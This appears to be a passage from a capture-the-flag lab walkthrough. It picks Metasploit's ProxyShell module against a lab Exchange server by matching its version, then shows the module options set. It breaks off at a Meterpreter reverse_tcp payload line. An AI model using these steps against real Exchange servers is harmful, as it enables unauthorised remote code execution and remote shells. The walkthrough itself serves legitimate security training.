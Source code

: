 There are 2 modules that could be used in this situation → Type `info` to view their details:

**exploit/windows/http/exchange_proxylogon_rce**

```
Description:
  This module exploit a vulnerability on Microsoft Exchange Server 
  that allows an attacker bypassing the authentication, impersonating 
  as the admin (CVE-2021-26855) and write arbitrary file 
  (CVE-2021-27065) to get the RCE (Remote Code Execution). By taking 
  advantage of this vulnerability, you can execute arbitrary commands 
  on the remote Microsoft Exchange Server. This vulnerability affects 
  (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 
  15.01.2106.013, Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 
  CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010). All 
  components are vulnerable by default.
```

**exploit/windows/http/exchange_proxyshell_rce**

```
Description:
  This module exploits a vulnerability on Microsoft Exchange Server 
  that allows an attacker to bypass the authentication 
  (CVE-2021-31207), impersonate an arbitrary user (CVE-2021-34523) and 
  write an arbitrary file (CVE-2021-34473) to achieve the RCE (Remote 
  Code Execution). By taking advantage of this vulnerability, you can 
  execute arbitrary commands on the remote Microsoft Exchange Server. 
  This vulnerability affects Exchange 2013 CU23 < 15.0.1497.15, 
  Exchange 2016 CU19 < 15.1.2176.12, Exchange 2016 CU20 < 15.1.2242.5, 
  Exchange 2019 CU8 < 15.2.792.13, Exchange 2019 CU9 < 15.2.858.9. All 
  components are vulnerable by default.
```

Notice on the ************************affected version************************ from 2 descriptions: Only the second module can affect the current target version which is `Exchange 2019 CU9 < 15.2.858.9` while our target version is `15.02.0858.005`.

`Use` the module and set the options as below:

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > show options

Module options (exploit/windows/http/exchange_proxyshell_rce):

   Name              Current Setting                    Required  Description
   ----              ---------------                    --------  -----------
   EMAIL             dev-infrastracture-team@thm.local  no        A known email address for this organization
   Proxies                                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            10.10.107.161                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             443                                yes       The target port (TCP)
   SRVHOST           0.0.0.0                            yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT           8080                               yes       The local port to listen on.
   SSL               true                               no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                              no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                                              no        The URI to use for this exploit (default is random)
   UseAlternatePath  false                              yes       Use the IIS root dir as alternate path
   VHOST                                                no        HTTP server virtual host

Payload options (windows/x64/meterpreter/reverse_tcp):
```